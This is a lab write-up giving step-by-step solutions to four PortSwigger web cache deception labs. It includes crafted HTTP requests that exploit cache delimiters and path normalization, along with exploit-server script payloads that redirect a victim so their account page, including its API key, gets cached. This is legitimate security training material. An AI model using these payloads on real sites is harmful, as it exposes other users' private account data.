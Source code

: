 ## Lab: Exploiting path mapping for web cache deception
To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- How regex endpoints map URL paths to resources.
- How to detect and exploit discrepancies in the way the cache and origin server map URL paths.

These points are covered in our Web cache deception Academy topic.

```plaintext
Select the request to /my-account
Try to add /something.js and check the response header to be sure that the Cache was miss and the request had been cached by resend this request in 30s after send the first request.

Go to exploit server and edit the body to something like below:
<script>document.location="https://0acc00af04bcab5b807103af001e0037.web-security-academy.net/my-account/filess.js"</script>

Then send it to the victim, after that access this link to retrieve the cached response of the carlos user.
Got the access token
```
## Lab: Exploiting path delimiters for web cache deception

To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

We have provided a list of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

#### Required knowledge

To solve this lab, you'll need to know:

- How to identify discrepancies in how the cache and origin server interpret characters as delimiters.
- How delimiter discrepancies can be used to exploit a static directory cache rule.

These points are covered in our Web cache deception Academy topic.

```plaintext
Solution:
First send the /my-account request to Intruder to find the delimiter
Paste the Web cache deception lab delimiter list as the payload then run the Intruder.

The payload is something like:
GET /my-account$$aaaa HTTP/2

Look for the delimiter that return a 200 response.

Then we can use that delimiter to run a web cache deception attack
Check it by send a request to /my-account like
GET /my-account;abc.js
And check if the request was cached or not

Go to the exploit server and edit the body:
<script>document.location="https://0acc00af04bcab5b807103af001e0037.web-security-academy.net/my-account;filess.js"</script>

Then send it to the victim, after that access this link to retrieve the cached response of the carlos user.
Got the access token
```
## Lab: Exploiting origin server normalization for web cache deception

To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

We have provided a list of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

#### Required knowledge

To solve this lab, you'll need to know:

- How to identify whether the cache and origin server normalize the URL path.
- How to identify static directory cache rules.
- How to exploit normalization by the origin server.

These points are covered in our Web cache deception Academy topic.

```plaintext
Solution:

First, send the /my-account request to Repeater and try to run a Path Traversal attack like
GET /resources/..%2fmy-account HTTP/2
We got a 200 success status code

Next go to and resources start with /resources path prefix and try to change the file extension or remove the file extension.

We can see that cache server work on /resources prefix path.

Try to access the /my-account page with /resources
GET /resources/..%2f/my-account HTTP/2

We got a 200 success status code with /my-account page

Change the body in the Exploit server to
<script>document.location="https://0a19009f03a93dd781be1139008f0046.web-security-academy.net/resources/..%2f/my-account?something"</script>

Send to the victim and access into this link to get the cached response for the carlos user.
```
## Lab: Exploiting cache server normalization for web cache deception

To solve the lab, find the API key for the user `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

We have provided a list of possible delimiter characters to help you solve the lab: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

#### Required knowledge

To solve this lab, you'll need to know:

- How to identify whether the cache and origin server normalize the URL path.
- How to identify static directory cache rules.
- How to identify discrepancies in how the cache and origin server interpret characters as delimiters.
- How to exploit normalization by the cache server.

These points are covered in our Web cache deception Academy topic.

```plaintext
Solution:

First send /my-account request to Intruder and try to find the delimiter
(Remember to turn off auto URL-encode in Payload Setting)

We got ?, #, %3F, %23

Detecting normalization by the cache server
Use the request access resources to check

GET /resources/..%2flabheader/js/submitSolution.js HTTP/2 -> Not cached
GET /resources/labheader/..%2fjs/submitSolution.js HTTP/2 -> Cached

The cache server decodes the slash resolves the dot-segment during normalization.

The cache server work on path prefix /resources/labheader/

Try:
GET /resources/..%2f/my-account HTTP/2 -> Not working
GET /my-account%2f%2e%2e%2fresources/submitSolution.js HTTP/2 -> 404, not caching

Combine all

GET /my-account%3F2f%2e%2e%2fresources/submitSolution.js HTTP/2 -> 200, not cache

GET /my-account%23%2f%2e%2e%2fresources/submitSolution.js HTTP/2 -> 200, cached
```
